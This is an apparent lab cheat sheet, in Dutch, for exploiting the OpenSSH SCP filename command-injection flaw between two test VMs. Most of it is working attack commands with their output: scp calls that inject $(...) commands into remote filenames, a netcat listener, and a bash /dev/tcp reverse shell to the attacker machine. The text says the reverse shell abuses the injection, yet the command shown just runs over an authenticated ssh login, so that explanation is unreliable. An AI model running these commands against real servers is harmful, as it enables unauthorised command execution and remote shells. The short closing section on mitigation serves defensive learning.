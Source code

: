 # Cheat sheet aanval Open SSH

Deze kwetsbaarheid zit in de SCP-client van OpenSSH (versies <= 8.3p1). SCP voert commando's uit op basis van bestandsnamen zonder ze goed te saniteren. Daardoor kan een aanvaller met geldige SSH-credentials kwaadaardige commando’s injecteren via bestandsnamen.

Stap 1: Controleer of de VM's met elkaar kunnen communiceren

```bash
ping 192.168.0.163
PING 192.168.0.163 (192.168.0.163) 56(84) bytes of data.
64 bytes from 192.168.0.163: icmp_seq=1 ttl=64 time=16.1 ms
64 bytes from 192.168.0.163: icmp_seq=2 ttl=64 time=7.04 ms
64 bytes from 192.168.0.163: icmp_seq=3 ttl=64 time=7.80 ms
64 bytes from 192.168.0.163: icmp_seq=4 ttl=64 time=7.78 ms
64 bytes from 192.168.0.163: icmp_seq=5 ttl=64 time=8.33 ms
```

SCP command injection

```bash
scp test.txt osboxes@192.168.0.163:/tmp/$(echo hello)

osboxes@192.168.0.163's password:
test.txt                                                                                                                                                   100%    0     0.0KB/s   00:00
```

Resultaat: er verschijnt een bestand hello op de server in /tmp, aangemaakt door de injectie.

```bash
osboxes@osboxes:/tmp$ ls
hello
```

## Meer geavanceerde commando's

```bash
scp test.txt "osboxes@192.168.0.163:'/tmp/$(touch /tmp/exploit_file)'"

ls /tmp/exploit_file
```

## Reverse shell via netcat

We kunnen nog een beetje verdergaan en een reverse shell opstarten via netcat. Dit doen we door misbruik te maken van de command injection in ssh.

Start een netcat listener op de aanvaller machine

```bash
nc -lvnp 4444
```

Reverse shell via SSH

```bash
ssh osboxes@192.168.0.163 'bash -i >& /dev/tcp/192.168.0.251/4444 0>&1'
```

## Hoe werkt het?

- SCP werkt door een commando scp -t <bestandsnaam> uit te voeren op de remote host om bestanden te ontvangen.

- De bestandsnaam wordt niet gesanitiseerd waardoor shell-injectie via backticks of $(...) mogelijk is.

- Dit is een authenticated exploit: je moet wel over geldige SSH-credentials beschikken.

## Waarom is het belangrijk om je servers te beschermen?

- Veel systemen gebruiken SCP nog steeds voor bestanden overzetten.

- Kwaadwillenden met toegang kunnen zo eenvoudig commando’s uitvoeren op de server.

- OpenSSH adviseert over te stappen op veiligere alternatieven zoals rsync of sftp.
